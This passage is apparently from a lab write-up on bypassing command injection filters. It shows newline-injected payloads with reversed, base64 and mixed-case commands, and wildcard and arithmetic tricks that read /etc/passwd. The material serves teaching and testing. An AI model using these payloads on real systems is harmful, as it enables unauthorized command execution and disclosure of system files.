 Students will attain this output after successfully executing the base64-encoded command through the command injection vulnerability.

### Alternative Methods (For Reference)

**Method 2: Reversed Command**
```bash
# Step 1: Reverse the command
echo 'find /usr/share/ | grep root | grep mysql | tail -n 1' | rev
# Output: 1 n- liat | lqsym perg | toor perg | /erahs/rsu/ dnif

# Step 2: Execute reversed
ip=127.0.0.1%0a$(rev<<<'1 n- liat | lqsym perg | toor perg | /erahs/rsu/ dnif')
```

**Method 3: Case Manipulation + Encoding**
```bash
# Mixed case + base64 encoding (more complex but also viable)
echo -n 'FiNd /UsR/sHaRe/ | GrEp RoOt | GrEp MySqL | TaIl -N 1' | tr "[A-Z]" "[a-z]" | base64
```

### Key Learning Points

1. **Base64 encoding** is essential when dealing with filtered pipe operators (`|`)
2. **Space filter bypass** is still required even with encoding (`%09` or `$IFS`)
3. **Newline injection** (`%0a`) remains the primary injection operator
4. **Burp Suite interception** is necessary to modify requests client-side validation
5. **Multiple techniques** can be combined for complex filtering scenarios

---

## Additional Advanced Techniques

### Wildcard Obfuscation

**Using Asterisk Wildcards:**
```bash
# Original: cat
# Obfuscated: c?t or c*t
/bin/c?t /etc/passwd
```

### Integer Expansion

**Using Bash Arithmetic:**
```bash
# Using arithmetic expansion
echo $((1+1))  # outputs 2
/bin/ca$((16#74)) /etc/passwd  # 't' in hex is 74
```

### Output Redirection

**Avoiding Pipes with Redirection:**
```bash
# Instead of: cat file | grep pattern
# Use: grep pattern < file
grep root < /etc/passwd
```
